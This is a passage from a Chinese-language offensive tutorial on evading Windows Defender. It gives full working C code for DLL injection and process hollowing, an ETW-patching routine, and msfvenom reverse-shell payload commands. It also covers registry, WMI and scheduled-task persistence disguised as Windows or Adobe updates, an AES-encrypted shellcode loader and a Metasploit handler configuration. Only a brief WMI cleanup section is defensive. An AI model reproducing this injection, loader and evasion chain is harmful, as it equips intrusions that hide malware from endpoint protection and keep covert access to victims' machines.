    if (etwFunc == NULL) return FALSE;
    
    // 修改内存保护
    DWORD oldProtect;
    VirtualProtect(etwFunc, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
    
    // 写入补丁：直接返回 0 (ERROR_SUCCESS)
    // x64: mov eax, 0; ret
    // x86: mov eax, 0; ret  (相同)
    BYTE patch[] = { 0x33, 0xC0, 0xC3 }; // xor eax,eax; ret
    memcpy(etwFunc, patch, sizeof(patch));
    
    // 恢复内存保护
    VirtualProtect(etwFunc, 1, oldProtect, &oldProtect);
    
    return TRUE;
}
```

### 3.5 进程注入技术

进程注入是将恶意代码注入到另一个合法进程的内存空间中执行。注入后的代码以宿主进程的身份运行，可以利用宿主的合法身份绕过行为检测，同时避免独立进程被监控。

#### 3.5.1 DLL 注入

DLL 注入是最经典的进程注入技术。核心思路是在目标进程中分配内存、写入 DLL 路径、然后调用 `LoadLibraryA` 加载 DLL。



**完整 DLL 注入代码**：

```c
// dll_injector.c
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

// 根据进程名查找 PID
DWORD FindProcessId(const char *processName) {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe = { .dwSize = sizeof(pe) };
    
    if (Process32First(snapshot, &pe)) {
        do {
            if (strcmp(pe.szExeFile, processName) == 0) {
                CloseHandle(snapshot);
                return pe.th32ProcessID;
            }
        } while (Process32Next(snapshot, &pe));
    }
    
    CloseHandle(snapshot);
    return 0;
}

int main(int argc, char *argv[]) {
    if (argc != 3) {
        printf("Usage: %s <process_name> <dll_path>\n", argv[0]);
        return 1;
    }
    
    DWORD pid = FindProcessId(argv[1]);
    if (pid == 0) {
        printf("Process not found: %s\n", argv[1]);
        return 1;
    }
    printf("[*] Target PID: %d\n", pid);
    
    // 打开目标进程
    HANDLE hProcess = OpenProcess(
        PROCESS_CREATE_THREAD | PROCESS_VM_OPERATION | 
        PROCESS_VM_WRITE | PROCESS_VM_READ,
        FALSE, pid
    );
    if (hProcess == NULL) {
        printf("OpenProcess failed: %d\n", GetLastError());
        return 1;
    }
    
    // 在目标进程中分配内存
    size_t dllPathLen = strlen(argv[2]) + 1;
    LPVOID pDllPath = VirtualAllocEx(
        hProcess, NULL, dllPathLen,
        MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE
    );
    if (pDllPath == NULL) {
        printf("VirtualAllocEx failed: %d\n", GetLastError());
        CloseHandle(hProcess);
        return 1;
    }
    printf("[*] Remote memory allocated at: %p\n", pDllPath);
    
    // 写入 DLL 路径
    if (!WriteProcessMemory(hProcess, pDllPath, argv[2], dllPathLen, NULL)) {
        printf("WriteProcessMemory failed: %d\n", GetLastError());
        VirtualFreeEx(hProcess, pDllPath, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }
    
    // 获取 LoadLibraryA 的地址
    // kernel32.dll 在所有进程中加载地址相同（同一会话内）
    FARPROC pLoadLibrary = GetProcAddress(
        GetModuleHandleA("kernel32.dll"), "LoadLibraryA"
    );
    printf("[*] LoadLibraryA at: %p\n", pLoadLibrary);
    
    // 创建远程线程执行 LoadLibraryA
    HANDLE hThread = CreateRemoteThread(
        hProcess, NULL, 0,
        (LPTHREAD_START_ROUTINE)pLoadLibrary,
        pDllPath, 0, NULL
    );
    if (hThread == NULL) {
        printf("CreateRemoteThread failed: %d\n", GetLastError());
        VirtualFreeEx(hProcess, pDllPath, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }
    
    printf("[+] DLL injected successfully!\n");
    WaitForSingleObject(hThread, INFINITE);
    
    // 清理
    VirtualFreeEx(hProcess, pDllPath, 0, MEM_RELEASE);
    CloseHandle(hThread);
    CloseHandle(hProcess);
    
    return 0;
}
```

**Meterpreter 中的进程迁移**：

在已获取 Meterpreter 会话后，可以快速迁移到其他进程：

```meterpreter
# 查看当前进程
getpid
getuid

# 列出可用进程
ps

# 迁移到 explorer.exe（常用目标，权限稳定）
migrate <explorer_PID>

# 迁移到指定架构进程
migrate <PID> -t 32   # 强制 32 位
migrate <PID> -t 64   # 强制 64 位
```

> **选择注入目标的策略**：好的注入目标应满足：(1) 长期运行不易崩溃；(2) 有正常的网络通信行为；(3) 权限足够高。`explorer.exe`、`svchost.exe`、`spoolsv.exe` 是常用选择，但 `svchost.exe` 因为 Defender 对其有额外监控，在最新版本中可能不是最佳选择。

#### 3.5.2 进程镂空（Process Hollowing）

进程镂空比 DLL 注入更激进——它创建一个挂起的合法进程，将其原始代码从内存中抹去（unmap），然后用恶意代码替换，最后恢复执行。从外部看，这是一个正常的系统进程在运行。



```c
// process_hollow.c - 进程镂空（简化演示版）
#include <windows.h>
#include <winternl.h>

typedef NTSTATUS(NTAPI *pNtUnmapViewOfSection)(
    HANDLE ProcessBaseAddress, 
    PVOID BaseAddress
);

int ProcessHollow(const char *targetPath, 
                   unsigned char *payload, 
                   DWORD payloadSize) {
    STARTUPINFOA si = { .cb = sizeof(si) };
    PROCESS_INFORMATION pi = {0};
    
    // 1. 以挂起模式创建目标进程
    if (!CreateProcessA(targetPath, NULL, NULL, NULL, FALSE,
            CREATE_SUSPENDED | CREATE_NO_WINDOW,
            NULL, NULL, &si, &pi)) {
        printf("CreateProcess failed: %d\n", GetLastError());
        return 1;
    }
    printf("[*] Suspended process created: PID %d\n", pi.dwProcessId);
    
    // 2. 获取线程上下文（包含寄存器状态）
    CONTEXT ctx;
    ctx.ContextFlags = CONTEXT_FULL;
    GetThreadContext(pi.hThread, &ctx);
    
    // 3. 从 PEB 读取原始映像基地址
    // x64: PEB 地址在 Rdx 寄存器中
    // x86: PEB 地址在 Ebx 寄存器中
    PVOID imageBase;
#ifdef _WIN64
    ReadProcessMemory(pi.hProcess, 
        (LPVOID)(ctx.Rdx + 0x10),  // PEB.ImageBaseAddress 偏移
        &imageBase, sizeof(PVOID), NULL);
#else
    ReadProcessMemory(pi.hProcess,
        (LPVOID)(ctx.Ebx + 0x8),
        &imageBase, sizeof(PVOID), NULL);
#endif
    printf("[*] Original image base: %p\n", imageBase);
    
    // 4. 卸载原始映像
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    pNtUnmapViewOfSection NtUnmapViewOfSection = 
        (pNtUnmapViewOfSection)GetProcAddress(hNtdll, "NtUnmapViewOfSection");
    NtUnmapViewOfSection(pi.hProcess, imageBase);
    printf("[*] Original image unmapped\n");
    
    // 5. 在原地址分配新内存
    // 解析 payload 的 PE 头获取 SizeOfImage
    PIMAGE_DOS_HEADER dosHdr = (PIMAGE_DOS_HEADER)payload;
    PIMAGE_NT_HEADERS ntHdrs = (PIMAGE_NT_HEADERS)(
        payload + dosHdr->e_lfanew);
    DWORD sizeOfImage = ntHdrs->OptionalHeader.SizeOfImage;
    
    LPVOID newBase = VirtualAllocEx(
        pi.hProcess, imageBase, sizeOfImage,
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE
    );
    if (newBase == NULL) {
        // 如果原地址被占用，分配任意地址
        newBase = VirtualAllocEx(pi.hProcess, NULL, sizeOfImage,
            MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    }
    printf("[*] New memory at: %p\n", newBase);
    
    // 6. 写入 PE 头
    WriteProcessMemory(pi.hProcess, newBase, payload,
        ntHdrs->OptionalHeader.SizeOfHeaders, NULL);
    
    // 7. 写入各节
    PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(ntHdrs);
    for (WORD i = 0; i < ntHdrs->FileHeader.NumberOfSections; i++) {
        WriteProcessMemory(pi.hProcess,
            (BYTE*)newBase + section[i].VirtualAddress,
            payload + section[i].PointerToRawData,
            section[i].SizeOfRawData, NULL);
    }
    
    // 8. 更新 PEB 中的 ImageBaseAddress
#ifdef _WIN64
    WriteProcessMemory(pi.hProcess, 
        (LPVOID)(ctx.Rdx + 0x10),
        &newBase, sizeof(PVOID), NULL);
    // 更新入口点
    ctx.Rcx = (DWORD64)newBase + ntHdrs->OptionalHeader.AddressOfEntryPoint;
#else
    WriteProcessMemory(pi.hProcess,
        (LPVOID)(ctx.Ebx + 0x8),
        &newBase, sizeof(PVOID), NULL);
    ctx.Eax = (DWORD)newBase + ntHdrs->OptionalHeader.AddressOfEntryPoint;
#endif
    SetThreadContext(pi.hThread, &ctx);
    
    // 9. 恢复执行
    ResumeThread(pi.hThread);
    printf("[+] Process hollowing complete\n");
    
    return 0;
}
```

#### 3.5.3 反射式 DLL 注入

反射式 DLL 注入（Reflective DLL Injection）是 Stephen Fewer 提出的技术，它不依赖 `LoadLibraryA`，而是在内存中手动完成 DLL 的加载过程——解析 PE 头、修复重定位、解析导入表、调用 DllMain。整个过程中 DLL 不会出现在模块列表中。

```c
// 反射式注入的核心流程（概念代码）
void ReflectiveLoad(BYTE *dllBuffer) {
    // 1. 解析 PE 头
    PIMAGE_DOS_HEADER dosHdr = (PIMAGE_DOS_HEADER)dllBuffer;
    PIMAGE_NT_HEADERS ntHdrs = (PIMAGE_NT_HEADERS)(
        dllBuffer + dosHdr->e_lfanew);
    
    // 2. 分配内存（大小等于 SizeOfImage）
    LPVOID imageBase = VirtualAlloc(
        (LPVOID)ntHdrs->OptionalHeader.ImageBase,
        ntHdrs->OptionalHeader.SizeOfImage,
        MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE
    );
    
    // 3. 复制节到内存
    memcpy(imageBase, dllBuffer, ntHdrs->OptionalHeader.SizeOfHeaders);
    PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(ntHdrs);
    for (int i = 0; i < ntHdrs->FileHeader.NumberOfSections; i++) {
        memcpy((BYTE*)imageBase + section[i].VirtualAddress,
               dllBuffer + section[i].PointerToRawData,
               section[i].SizeOfRawData);
    }
    
    // 4. 修复重定位表
    // 当 DLL 的加载地址不是首选基址时，需要修复所有绝对地址引用
    PIMAGE_DATA_DIRECTORY relocDir = 
        &ntHdrs->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
    // ... 遍历重定位块，修正偏移
    
    // 5. 解析导入表
    // 遍历 Import Descriptor，对每个 DLL 调用 LoadLibraryA
    // 对每个函数调用 GetProcAddress
    PIMAGE_DATA_DIRECTORY importDir = 
        &ntHdrs->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT];
    // ... 遍历导入表
    
    // 6. 调用 DllMain
    DllMainFunc dllMain = (DllMainFunc)(
        (BYTE*)imageBase + ntHdrs->OptionalHeader.AddressOfEntryPoint);
    dllMain((HINSTANCE)imageBase, DLL_PROCESS_ATTACH, NULL);
}
```

**常用工具**：

```bash
# 使用 msfvenom 生成反射式 DLL payload
msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f dll -o reflective_payload.dll

# 使用 Cobalt Strike 的 reflective DLL 注入
# CS 内置了 Reflective Injection，Beacon 默认就使用此技术
```

### 3.6 持久化技术

持久化是确保在系统重启、用户注销后仍然能够维持访问。持久化技术的选择需要在隐蔽性和可靠性之间权衡。

#### 3.6.1 注册表持久化

注册表启动项是最简单的持久化方式，但也是最容易被发现的。

```cmd
:: HKCU Run 键（当前用户，无需管理员权限）
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" ^
    /v "WindowsUpdate" /t REG_SZ ^
    /d "C:\Users\Public\svchost.exe" /f

:: HKLM Run 键（所有用户，需要管理员权限）
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" ^
    /v "SecurityHealthService" /t REG_SZ ^
    /d "C:\ProgramData\Microsoft\svc.exe" /f

:: 利用 WOW6432Node 路径（32 位程序在 64 位系统上）
reg add "HKLM\Software\WOW6432Node\Microsoft\Windows\CurrentVersion\Run" ^
    /v "AdobeUpdate" /t REG_SZ ^
    /d "C:\ProgramData\Adobe\update.exe" /f
```

**注册表持久化位置对比**：

| 路径 | 权限要求 | 检测难度 | 说明 |
|------|----------|----------|------|
| `HKCU\...\Run` | 用户 | ★★☆☆☆ | 最常见，Defender 重点监控 |
| `HKLM\...\Run` | 管理员 | ★★☆☆☆ | 同上，但影响所有用户 |
| `HKCU\...\RunOnce` | 用户 | ★★★☆☆ | 执行一次后自动删除键值 |
| `HKLM\...\Winlogon\Shell` | 管理员 | ★★★★☆ | 替换 shell 进程 |
| `HKLM\...\Winlogon\Userinit` | 管理员 | ★★★★☆ | 登录时自动执行 |
| `HKCU\Environment\UserInitMprLogonScript` | 用户 | ★★★★☆ | 少为人知的登录脚本 |
| `HKCR\*\shell\open\command` | 管理员 | ★★★★★ | 文件关联劫持 |

#### 3.6.2 WMI 事件订阅

WMI（Windows Management Instrumentation）事件订阅是一种高度隐蔽的持久化方式。它不修改文件系统，所有配置存储在 WMI 数据库中（CIM 仓库），大多数安全工具不监控 WMI 事件订阅的创建。

```powershell
# WMI 事件订阅持久化
# 原理：创建一个事件过滤器（触发条件）+ 一个事件消费者（执行动作）+ 一个绑定

# 1. 创建事件过滤器
# 触发条件：系统启动后 120-180 秒之间
$filterArgs = @{
    Name = "SystemStartupFilter"
    EventNamespace = "root\cimv2"
    QueryLanguage = "WQL"
    Query = @"
SELECT * FROM __InstanceModificationEvent WITHIN 60 
WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' 
AND TargetInstance.SystemUpTime >= 120 
AND TargetInstance.SystemUpTime < 180
"@
}
$filter = Set-WmiInstance -Namespace "root\subscription" `
    -Class "__EventFilter" -Arguments $filterArgs

# 2. 创建命令行消费者
$consumerArgs = @{
    Name = "StartupConsumer"
    CommandLineTemplate = "C:\ProgramData\Microsoft\svc.exe"
}
$consumer = Set-WmiInstance -Namespace "root\subscription" `
    -Class "CommandLineEventConsumer" -Arguments $consumerArgs

# 3. 绑定过滤器和消费者
$bindingArgs = @{
    Filter = $filter
    Consumer = $consumer
}
Set-WmiInstance -Namespace "root\subscription" `
    -Class "__FilterToConsumerBinding" -Arguments $bindingArgs

# 验证 WMI 订阅是否创建成功
Get-WmiObject -Namespace "root\subscription" -Class "__EventFilter" | 
    Where-Object { $_.Name -eq "SystemStartupFilter" }
Get-WmiObject -Namespace "root\subscription" -Class "CommandLineEventConsumer" |
    Where-Object { $_.Name -eq "StartupConsumer" }
```

**WMI 持久化检测与清理**：

```powershell
# 检查所有 WMI 事件订阅
Get-WmiObject -Namespace "root\subscription" -Class "__EventFilter"
Get-WmiObject -Namespace "root\subscription" -Class "CommandLineEventConsumer"
Get-WmiObject -Namespace "root\subscription" -Class "__FilterToConsumerBinding"

# 清理恶意 WMI 订阅
Get-WmiObject -Namespace "root\subscription" -Class "__EventFilter" |
    Where-Object { $_.Name -eq "SystemStartupFilter" } | Remove-WmiObject
Get-WmiObject -Namespace "root\subscription" -Class "CommandLineEventConsumer" |
    Where-Object { $_.Name -eq "StartupConsumer" } | Remove-WmiObject
```

#### 3.6.3 计划任务

计划任务持久化介于注册表和 WMI 之间——比注册表灵活，比 WMI 简单。

```cmd
:: schtasks 命令行方式
:: 系统启动时以 SYSTEM 权限执行
schtasks /create /tn "Microsoft\Windows\WindowsUpdate" ^
    /tr "C:\ProgramData\Microsoft\svc.exe" ^
    /sc onstart /ru SYSTEM /rl HIGHEST /f

:: 用户登录时执行
schtasks /create /tn "Adobe\AcrobatUpdate" ^
    /tr "C:\Users\Public\update.exe" ^
    /sc onlogon /ru %USERNAME% /f

:: 定时执行（每小时）
schtasks /create /tn "Microsoft\Windows\Maintenance" ^
    /tr "C:\ProgramData\maint.exe" ^
    /sc hourly /mo 1 /ru SYSTEM /f
```

```powershell
# PowerShell 方式（更灵活）
$action = New-ScheduledTaskAction -Execute "C:\ProgramData\Microsoft\svc.exe" `
    -Argument "-background"

# 多种触发器
$triggerLogon = New-ScheduledTaskTrigger -AtLogOn
$triggerBoot = New-ScheduledTaskTrigger -AtStartup
$triggerDaily = New-ScheduledTaskTrigger -Daily -At "3:00AM"

# 注册任务（使用隐蔽的任务名）
Register-ScheduledTask -TaskName "WindowsDefenderUpdate" `
    -Action $action -Trigger $triggerBoot `
    -User "SYSTEM" -RunLevel Highest `
    -Description "Windows Defender 定义更新服务"
```

#### 3.6.4 其他高级持久化技术

| 技术 | 原理 | 隐蔽性 | 难度 |
|------|------|--------|------|
| **DLL Search Order Hijacking** | 利用 DLL 搜索顺序劫持合法程序加载恶意 DLL | ★★★★☆ | ★★★☆☆ |
| **COM Object Hijacking** | 劫持 COM 对象的注册表指向 | ★★★★★ | ★★★★☆ |
| **Print Monitor DLL** | 注册恶意打印监视器 DLL，系统启动时自动加载 | ★★★★★ | ★★★★☆ |
| **Boot/Logon Script** | 利用组策略启动脚本 | ★★★☆☆ | ★★☆☆☆ |
| **Service Creation** | 创建 Windows 服务 | ★★★☆☆ | ★★★☆☆ |
| **Office Add-in** | 恶意 Office 加载项 | ★★★★☆ | ★★★☆☆ |

### 3.7 免杀效果测试方法

免杀不是"做了就能用"——每次修改后都需要系统性测试。盲目操作只会浪费时间。

#### 3.7.1 本地快速测试

```powershell
# 使用 PowerShell 手动扫描文件
# MpCmdRun.exe 是 Windows Defender 的命令行扫描工具
& "C:\Program Files\Windows Defender\MpCmdRun.exe" -Scan -ScanType 3 `
    -File "C:\test\payload.exe"

# ScanType 参数：
# 1 = Quick Scan
# 2 = Full Scan  
# 3 = Custom Scan（需要 -File 指定路径）

# 返回值：0 = 无威胁，2 = 发现威胁
```

#### 3.7.2 在线沙箱测试

| 平台 | URL | 特点 |
|------|-----|------|
| **VirusTotal** | virustotal.com | 70+ 引擎扫描，但样本会共享给安全厂商 |
| **Hybrid Analysis** | hybrid-analysis.com | 深度行为分析，支持自定义环境 |
| **Any.Run** | any.run | 交互式沙箱，可以实时操作 |
| **Joe Sandbox** | joesandbox.com | 商业级分析，绕过反沙箱能力强 |

> **重要提醒**：VirusTotal 会将上传的样本分享给所有安全厂商。这意味着你上传的 payload 签名将在数小时内被全球 AV 引擎收录。**绝不要在正式评估中将 payload 上传到 VirusTotal**。使用私有沙箱或自己搭建的测试环境。

#### 3.7.3 自建测试环境

```bash
# 使用 VirtualBox/VMware 搭建隔离测试环境
# 1. 安装 Windows 10/11 虚拟机
# 2. 确保 Windows Defender 是最新签名
# 3. 禁用网络连接（防止样本外泄）
# 4. 创建快照（每次测试后恢复）

# 自动化测试脚本（在攻击机上运行）
#!/bin/bash
PAYLOAD="$1"
TARGET_VM="192.168.56.100"

# 通过共享文件夹或 SMB 传递文件
smbclient //$TARGET_VM/share -c "put $PAYLOAD payload.exe"

# 触发目标扫描
ssh user@$TARGET_VM 'MpCmdRun.exe -Scan -ScanType 3 -File C:\share\payload.exe'

# 检查 Defender 日志
ssh user@$TARGET_VM 'Get-MpThreatDetection | Select-Object -First 5'
```

### 3.8 综合实战案例：从零到完全免杀

将以上技术串联起来，演示一个完整的免杀 payload 制作流程。

#### 3.8.1 场景设定

- **目标**：Windows 11 + Windows Defender（最新签名）
- **目标**：获取目标机器的反向 Meterpreter 会话
- **要求**：绕过 Defender 静态和动态检测
- **攻击机**：Kali Linux

#### 3.8.2 完整流程

**第一步：生成加密 shellcode**

```bash
# 在 Kali 上生成 raw shellcode
msfvenom -p windows/x64/meterpreter/reverse_https \
    LHOST=your-domain.com LPORT=443 \
    -f raw -o shellcode.bin

# Python 加密
python3 << 'EOF'
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import os, sys

with open("shellcode.bin", "rb") as f:
    sc = f.read()

key = os.urandom(32)
iv = os.urandom(16)
cipher = AES.new(key, AES.MODE_CBC, iv)
enc = cipher.encrypt(pad(sc, 16))

# 输出为 C 数组
def to_c_array(data, name):
    arr = ", ".join(f"0x{b:02x}" for b in data)
    return f"unsigned char {name}[] = {{ {arr} }};\nunsigned int {name}_len = {len(data)};"

with open("encrypted_shellcode.h", "w") as f:
    f.write(to_c_array(key, "aes_key") + "\n")
    f.write(to_c_array(iv, "aes_iv") + "\n")
    f.write(to_c_array(enc, "encrypted_sc") + "\n")

print("[+] Key, IV, encrypted shellcode written to encrypted_shellcode.h")
EOF
```

**第二步：编写自定义 Loader**

```c
// loader.c - AES 解密 + 分阶段内存保护
#include <windows.h>
#include <stdio.h>
#include "encrypted_shellcode.h"  // 包含 key, iv, encrypted_sc

// 简化版 AES 解密（实际应使用 Windows CryptoAPI 或内嵌微型 AES 库）
// 这里用 CryptoAPI 示例
#pragma comment(lib, "advapi32.lib")

BOOL AesDecrypt(BYTE *encrypted, DWORD encLen, 
                BYTE *key, DWORD keyLen,
                BYTE *iv, DWORD ivLen,
                BYTE **decrypted, DWORD *decLen) {
    HCRYPTPROV hProv;
    HCRYPTKEY hKey;
    HCRYPTHASH hHash;
    
    if (!CryptAcquireContext(&hProv, NULL, NULL, 
            PROV_RSA_AES, CRYPT_VERIFYCONTEXT))
        return FALSE;
    
    // 导入 AES 密钥
    if (!CryptImportKey(hProv, /* ... */, 0, 0, &hKey)) {
        CryptReleaseContext(hProv, 0);
        return FALSE;
    }
    
    // 设置 IV
    CryptSetKeyParam(hKey, KP_IV, iv, 0);
    
    // 解密
    *decLen = encLen;
    *decrypted = (BYTE*)HeapAlloc(GetProcessHeap(), 0, *decLen);
    memcpy(*decrypted, encrypted, encLen);
    
    if (!CryptDecrypt(hKey, 0, TRUE, 0, *decrypted, decLen)) {
        HeapFree(GetProcessHeap(), 0, *decrypted);
        CryptDestroyKey(hKey);
        CryptReleaseContext(hProv, 0);
        return FALSE;
    }
    
    CryptDestroyKey(hKey);
    CryptReleaseContext(hProv, 0);
    return TRUE;
}

int main() {
    // 1. 解密 shellcode
    BYTE *decrypted = NULL;
    DWORD decLen = 0;
    
    if (!AesDecrypt(encrypted_sc, encrypted_sc_len,
            aes_key, aes_key_len,
            aes_iv, aes_iv_len,
            &decrypted, &decLen)) {
        return 1;
    }
    
    // 2. 分配 RW 内存（不直接设为可执行）
    void *exec_mem = VirtualAlloc(0, decLen,
        MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (!exec_mem) return 1;
    
    // 3. 复制解密后的 shellcode
    memcpy(exec_mem, decrypted, decLen);
    SecureZeroMemory(decrypted, decLen);  // 安全清除明文
    HeapFree(GetProcessHeap(), 0, decrypted);
    
    // 4. 修改为可执行（分阶段保护）
    DWORD oldProtect;
    VirtualProtect(exec_mem, decLen, PAGE_EXECUTE_READ, &oldProtect);
    
    // 5. 以线程方式执行
    HANDLE hThread = CreateThread(0, 0,
        (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
    if (hThread) {
        WaitForSingleObject(hThread, INFINITE);
        CloseHandle(hThread);
    }
    
    return 0;
}
```

**第三步：编译与打包**

```bash
# MinGW 编译（改变编译器特征）
x86_64-w64-mingw32-gcc loader.c -o loader.exe \
    -mwindows -Wl,--dynamicbase -Wl,--nxcompat \
    -Os -s -ladvapi32 \
    -Wl,--strip-all \
    -fno-stack-protector \
    -Wl,--gc-sections

# 可选：使用自定义壳进一步保护
# 或者使用资源编辑器添加版本信息和图标
```

**第四步：设置 C2 基础设施**

```bash
# 使用 reverse_https payload（与 shellcode 生成时一致）
# 配置 Cobalt Strike Listener 或 Metasploit Handler

# Metasploit Handler
msfconsole -q -x "
use exploit/multi/handler;
set payload windows/x64/meterpreter/reverse_https;
set LHOST your-domain.com;
set LPORT 443;
set ExitOnSession false;
exploit -j;
"
```

**第五步：测试与迭代**

```bash
# 1. 先在关闭 Defender 的 VM 上测试功能正常
# 2. 开启 Defender 测试静态免杀（文件不被检测）
# 3. 执行测试动态免杀（运行时不被拦截）
# 4. 检查任务管理器中的进程是否可疑
# 5. 检查网络连接是否有异常特征
```

### 3.9 常见错误与排错

| 问题 | 可能原因 | 解决方案 |
|------|----------|----------|
| Payload 生成即被杀 | msfvenom 默认特征被签名 | 自定义 loader + 加密 |
| 运行时被拦截 | 行为检测（API 调用序列） | Unhooking / 直接系统调用 |
| 会话建立后立即断开 | 基于行为的内存检测 | 加密内存 + 定时刷新 |
| DLL 注入失败 | 目标进程架构不匹配 | 检查 32/64 位匹配 |
| CreateRemoteThread 失败 | 权限不足或受保护进程 | 使用 APC 注入或更高级技术 |
| WMI 持久化不触发 | 事件查询条件错误 | 使用 WMI Explorer 验证查询 |
| 编译后体积异常大 | 包含了调试信息和符号 | 使用 `-s` 和 `--strip-all` |
| AMSI 绕过被检测 | 已知补丁签名被收录 | 自行修改补丁字节 |

### 3.10 免杀技术的演进趋势

免杀是一个攻防双方持续对抗的领域。了解趋势有助于判断技术的生命周期：

**防守方的进化**：
- **基于 AI 的行为分析**：不再依赖固定规则，而是用机器学习模型识别异常行为模式
- **硬件级检测**：Intel CET（Control-flow Enforcement Technology）可以阻止 ROP/JOP 攻击
- **云沙箱增强**：样本在多个云环境中并行分析，增加绕过难度
- **内核级监控增强**：Kernel-mode ETW、Hypervisor-protected Code Integrity（HVCI）

**进攻方的应对**：
- **EBPF / 内核回调**：利用合法的内核接口实现更底层的隐藏
- **硬件虚拟化**：利用 VT-x/AMD-V 创建微型 Hypervisor 隐藏执行环境
- **供应链攻击**：不需要免杀，直接利用合法软件的信任链
- **无文件攻击**：完全基于内存，不留任何磁盘痕迹
- **AI 辅助免杀**：使用 AI 自动生成和变异 payload，大幅提高效率

**关键认知**：免杀技术的生命周期正在缩短。一个有效的免杀技术从公开到被 AV 签名收录的时间，已经从数月缩短到数天甚至数小时。因此，掌握原理比掌握具体技术更重要——理解了检测机制，才能在技术失效后快速开发新的绕过方案。
